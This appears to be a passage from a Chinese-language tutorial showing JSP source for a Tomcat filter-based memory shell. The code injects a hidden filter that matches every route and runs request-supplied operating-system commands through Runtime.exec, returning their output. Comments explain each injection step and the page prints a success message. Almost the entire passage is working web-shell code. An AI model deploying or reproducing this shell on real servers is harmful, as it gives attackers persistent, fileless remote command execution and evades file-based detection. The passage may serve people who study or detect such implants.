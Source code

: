 ```jsp
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
            //别忘记带这个，不然的话其他的过滤器可能无法使用
        	chain.doFilter(request, response);
   			 }
         }

            @Override
            public void destroy() {

            }

        };

		//4.然后为自定义对象的filter创建一个FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        
        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
      //拦截的路由规则，/* 表示拦截任意路由，这里优先级调到最高
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);
		//5.最后把 ServletContext对象 filter对象 FilterDef全部都设置到filterConfigs即可完成内存马的实现
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("内存马注入成功");
    }
%>

```



访问这个页面：
